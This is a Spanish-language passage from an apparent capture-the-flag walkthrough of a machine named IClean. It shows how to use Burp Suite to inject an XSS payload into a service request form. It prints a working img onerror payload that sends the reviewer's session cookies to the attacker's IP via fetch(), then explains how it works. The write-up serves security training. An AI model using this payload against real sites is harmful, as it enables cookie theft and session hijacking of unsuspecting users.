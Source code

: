 Para comprobar si es vulnerable vamos a interceptar la petición por burpsuite y a manipularla en el repeater.

Vemos que hay un campo email y varios campos services dependiendo de los servicios que hayamos elegido. Podemos intentar introducir una etiqueta HTML maliciosa e intentar robarle las cookies de sesión al equipo que va a revisar nuestra solicitud.

![xss through burpsuite](../../img/IClean/xss-payload.png)

El payload que se ve arriba es el siguiente, pero, para mandarlo como un campo POST es necesario URL-encodearlo, para ello selecciónalo en burpsuite y pulsa `ctrl`+`u`.

```html
<img src="err" onerror="fetch(`http://10.10.14.124:1234/?${document.cookie}`)" />
```

---

**¿Qué hace este payload?**

*Suponiendo que los campos `service` y `email` se le mostrarán al destinatario en un navegador, si estos no están bien sanitizados, una etiqueta HTML podria interpretarse en vez de leerse en texto claro.*

*Ahí es donde entra nuestro payload. El navegador intentará cargar una etiqueta `<img />` cuya url es "err", lo cual dará un error ya que no existe ninguna imagen llamada "err" en el directorio actual de la máquina (esperemos).*

*Al dar error se ejecutará el `onerror` de la etiqueta, donde nos mandaremos una solicitud por get a nuestra maquina con las cookies de la víctima como parámetros. Luego nosotros las recibiremos y nos intentaremos conectar como ese usuario.*

---
